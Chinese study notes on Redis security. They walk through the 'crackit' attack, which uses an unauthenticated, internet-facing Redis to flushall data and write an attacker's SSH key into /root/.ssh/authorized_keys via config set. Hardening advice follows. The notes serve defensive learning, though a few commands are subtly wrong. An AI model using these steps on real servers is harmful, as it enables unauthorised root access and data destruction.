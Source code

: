 ### 安全问题

#### 案例 - 全球crackit攻击

* 过程示意图

  ![](https://github.com/gothicrush/learning/blob/master/Redis/12.Redis%E5%BC%80%E5%8F%91%E8%A7%84%E8%8C%83%E4%B8%8E%E5%AE%89%E5%85%A8/images/crackit%E7%A4%BA%E6%84%8F%E5%9B%BE.PNG)

* 被攻击者存在问题

  * redis没有设置密码
  * redis可以通过公网ip访问
  * redis使用默认端口启动
  * redis没有绑定特定网卡
  * redis以root启动

* 攻击流程

  * 攻击前尝试连接到被攻击者服务器

    ```bash
    >> ssh root@123.45.67.89 # 失败，因为你没有密钥，也没有ssh-keygen
    ```

  * 由于被攻击者外网开放，且使用默认端口，且没有限制网卡流量

    ```bash
    >> redis-cli -h 123.45.67.89 -p 6379 ping
    >> PONG
    >> redis-cli -h 123.16.14.182 -p 6379 flushall
    >> OK
    ```

  * 在攻击者服务器生成一个公钥，并将公钥保存到一个id_rsa.pub中

    ```bash
    >> ssh-keygen -C rsa -t "email@gmail"
    >> cat id_rsa.pub
    ```

  * 将公钥内容作为value添加到redis中

    ```bash
    >> redis-cli -h 123.45.67.89 -p 6379 -x set crackit
    >> redis-cli -h 123.45.67.89 -p 6379 get crackit
    ```

  * 将redis的dir设置为/root/.ssh目录，dbfilename设置为authorized_keys

    ```bash
    123.45.67.89:6379> config set dir /root/.ssh
    OK
    123.45.67.89:6379> config set dbfilename authorized_keys
    OK
    123.45.67.89:6379> save
    OK
    ```

  * 此时，因为被攻击者服务器上已经有了攻击者的公钥，即攻击者可以用ssh进行登录



#### 安全七法则

* 设置密码

  * 服务端配置：requirepass和masterauth
  * 客户端连接：auth命令和-a参数
  * 注意事项
    * 密码要足够复杂，因为redis性能太强，暴力破解比较简单
    * 不要忘记masterauth
    * auth是通过明文传输的，所以是有被盗窃的风险

* 伪装危险命令

  * 原理：类似linux的alias，将一些命令重新起个名字

  * 实现：在配置文件中

    ```bash
    rename-command flushall abc
    ```

  * 注意事项

    * 不支持动态 config set
    * RDB或AOF如果包含有rename-command之前的命令，将无法使用
    * config命令本身在redis内核中会使用到，不建议重命名

* 绑定网卡

  * 通过bind命令来限制redis可以接收的流量的网卡

  * 实现：在配置文件中

    ```bash
    bind 127.0.0.1
    ```

  * 注意事项：

    * bind不支持config set
    * bind 127.0.0.1要谨慎，因为这样做就只能接收到本机流量
    * 如果存在外网网卡就尽量屏蔽掉

* 防火墙

  * 最强的，最安全的技术

* 定期备份

  * 避免数据丢失，非常重要的措施

* 不使用默认端口

  * 参考全球crackit攻击中使用默认端口6379启动redis而带来的危害

* 使用非root用户启动

  * 参考全球crackit攻击中使用root启动redis而带来的危害

